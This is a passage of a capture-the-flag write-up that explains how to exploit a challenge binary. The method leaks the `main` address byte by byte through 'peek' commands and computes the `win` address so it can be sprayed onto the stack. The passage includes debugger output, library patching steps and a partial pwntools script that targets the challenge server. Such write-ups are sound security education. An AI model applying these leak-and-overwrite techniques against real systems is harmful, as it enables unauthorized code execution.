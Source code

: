 The idea is to find the first occurrence of `main`, take it's offset, read it's values, calculate the offset to `win` function and spray the `win` function address starting from first occurrence of main.

With the above example, offset from our `ABCD` string (0x7fffffffdc30) to `main`'s first occurrence (0x7fffffffde88) is 600. We can also get the offset from `main` to `win` in pwndbg:
```
pwndbg> p win - main
$14 = 2944
```

Now that we have the offsets, the algorithm is as follows:
- input _peek_ 8 times starting with the offset to `main`'s first occurrence to leak `main` address
- calculate `win` address by using the offset of 2944
- input _poke_ 8 times in N (N being any number we wish) sets starting from `main`'s first occurrence to spray stack values with `win` address
- input _quit_ and hope that the exit procedure will read the wrong address from the stack to leak `flag.txt`

Before we can do this, we have to patch the current binary with appropriate shared object files (libc and libstdc). For this we use https://github.com/io12/pwninit with command `./pwninit --libc libc-2.27.so --bin chall`.

In order for the patched binary to work, we needed appropriate libgcc_s version which was extracted from ubuntu:20.04 docker container. Otherwise, the binary fails with:
```
$ LD_PRELOAD="./libc-2.27.so ./libstdc.so.6.0.25" ./chall_patched
./chall_patched: ./libc-2.27.so: version `GLIBC_2.35' not found (required by /lib/x86_64-linux-gnu/libgcc_s.so.1)
./chall_patched: ./libc-2.27.so: version `GLIBC_2.34' not found (required by /lib/x86_64-linux-gnu/libgcc_s.so.1)
```

When we have the appropriate shared objects linked, offsets must be recalculated. In my case the offsets were 568 bytes til `main` function address and 2944 bytes between `main` and `win`.

Here is the source code:
```python
from pwn import *

OFFSET_MAIN = 568
OFFSET_WIN = 2944

#p = process("./chall_patched", env={"LD_PRELOAD" : "./libgcc_s.so.1 ./libc-2.27.so ./libstdc.so.6.0.25"})
#gdb.attach(p, """b *(main + 1304)
#c
#""")
p = remote("0.cloud.chals.io", 33623)
print(p.recvline())
p.sendline(b"ABCD")
print(p.recvline())
main = []
for i in range(OFFSET_MAIN, OFFSET_MAIN+8, 1):
	r = b"peek " + str(i).encode()
	print(r)
	p.sendline(r)
	v = p.recvline()
	print(v)
	a = int(v)
	if a < 0: a += 256
	print(a)
	main.append(a)
	print(p.recvline())

mainb = bytes(main)
maini = int.from_bytes(mainb, 'little')
```